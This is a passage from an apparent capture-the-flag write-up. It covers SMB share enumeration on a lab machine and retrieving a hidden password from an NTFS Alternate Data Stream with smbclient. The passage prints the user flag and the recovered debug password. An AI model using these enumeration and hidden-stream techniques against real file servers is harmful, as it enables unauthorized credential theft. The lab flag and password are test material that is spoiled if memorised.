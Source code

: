 ```
NT_STATUS_ACCESS_DENIED listing \L.Frost\*
NT_STATUS_ACCESS_DENIED listing \R.Thompson\*
NT_STATUS_ACCESS_DENIED listing \TempUser\*
```

This is where we find the user flag:

```
cat smb/C.Smith/user.txt
cf71b25404be5d84fd827e05f426e987
```

### Alternate Data Stream (ADS)

**TL;DR**: password of HQK Reporting via ADS

Inside `Users` share, in the `C.Smith` folder, there are files related to
`HQK Reporting` software.

There is a promising `Debug Mode Password.txt` files but the files ize is 0 byte.

This gives us an hint an ADS (Alternate Data Stream) may be used.

As you can see below the default `$DATA` stream is 0 byte when an alternate
stream named `Password` is 15 bytes. So we can download the file via the non-default
data stream.

```
$ smbclient \\\\10.10.10.178\\Users -U 'c.smith'
Unable to initialize messaging context
Enter WORKGROUP\c.smith's password:
Try "help" to get a list of possible commands.
smb: \> cd "C.Smith\HQK Reporting"
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    ven. ao├╗t  9 01:06:12 2019 CEST
access_time:    ven. ao├╗t  9 01:06:12 2019 CEST
write_time:     ven. ao├╗t  9 01:08:17 2019 CEST
change_time:    ven. ao├╗t  9 01:08:17 2019 CEST
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as Debug Mode Password.txt:Password:$DATA (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\>
```

In this stream the file contains the password for accessing teh debug mode:

```
$ cat smb/Debug\ Mode\ Password.txt:Password:\$DATA
WBQ201953D8w
```

### Network service exploitation: finding Administrator
